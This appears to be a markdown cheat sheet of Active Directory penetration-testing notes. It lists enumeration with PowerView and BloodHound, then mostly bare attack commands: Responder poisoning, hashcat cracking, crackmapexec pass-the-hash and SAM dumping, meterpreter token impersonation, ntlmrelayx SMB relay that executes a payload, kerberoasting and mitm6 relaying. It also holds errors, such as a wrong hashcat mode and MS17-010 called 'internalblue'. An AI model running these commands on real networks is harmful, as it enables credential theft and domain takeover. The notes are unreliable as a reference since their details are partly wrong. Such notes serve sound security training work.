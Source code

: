 
# Windows Server 2019
- Enable AD
- Enable AD DC
- Run/Group Policy Management App
  - setspn -a $DC/$UDN:6011 $D\$U
  - setspn -T $D.local -Q */*
- Grab the %SytemRoot\NTDS%Ntds.dit file
  - Workstations configured to use AD DC as DNS via IP 
  - add ad user as local admin
- Features
  - 
# Post Enum
- powershell -ep bypass
- . ./PowerView.ps1 # https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
  - Get-NetDomain
  - Get-NetDomainController
  - Get-NetComputer -FullData
  - Get-DomainPolicy
    - (Get-DomainPolicy)."system access"
  - Get-NetUser | select cn
  - Get-NetGroup
  - Get-NetGroupMember -Groupname "Domains Admin"
  - Get-UserProperty -Properties pwdlastset logoncount #no logons might be honeypot
  - Invoke-ShareFinder
  - Get_NetGPO
- Spretre Ops Bloudhound
  - opt install bloodhoud
    - neo4j console (u/p:neo4j)
    - bloudhound
    - . .\SharpHound.ps1
    - Invoke-bloodhound -CollectionMethod All -ZipFileName output.zip

# Notes
  - AD users kerberos
  - linux and mac via RADIUS and LDAP

# Internal
- try to get an admin to log on your machine
  - use mimikats to pass the hash
- be loud to help blue team sync up
- Active Directory Attacks
  - Netbios amd LLMNR/NBT-NS Poisoning
    - use social engineering or phishing to get bad dns requests
    - python Responder.py -I eth0 -rdwv
    - hashcat -m 5680 $hashes.txt $passwords.txt -O--force
    - NTLMv2 hash
  - Pass the hash
    - apt install crackmapexec
    - crackmapexec $subnet -u $user -d $domain -p $password
    - crackmapexec $subnet -u $user -d $domain -H $hash --local
    - crackmapexec $subnet -u $user -d $domain -p $password --sam
  - Token Impersonation
    - https://www.offensive-security.com/metasploit-unleashed/fun-incognito/
    - meterpreter> load incognito
    - meterpreter> list_tokens -u
    - meterpreter> impersonate_token $domain\\$user
  - SMB Relay
    - nmap --script=smb2-security-mode.nse -p445 $sn # look for enabled or not targets.txt req.
    - python Responder.py -I eth0 -rdwv
    - python ntlmrelayx.py itf $targets.txt -i
    - python ntlmrelayx.py itf $targets.txt -e test.exe
    - msfconsole
      - search psexec
    - psexec.py
    - smbexec.py
    - wmiexec.py
  - kerboroasting
    - python GetUserSPNs.py $D.local/user:passsword -dc-ip $ip -request
    - hashcat -m 13100 $hashes.txt $passwords.txt -O--force
  - GPP
    - windows 2012
    - gpp-decrpt
  - IPV6 attacks
    - mitm6 
      - dns spoofing
      - dc
      - smb 
      - lpap
        - ntlmrelayx.py -6 -t ldaps://$dc -wh fakepad.$d.local -l lootme
        - get machines to reboot, or wait for a reboot
      - ldap relaying via ntlm
  - ms17-010 aka internalblue.
  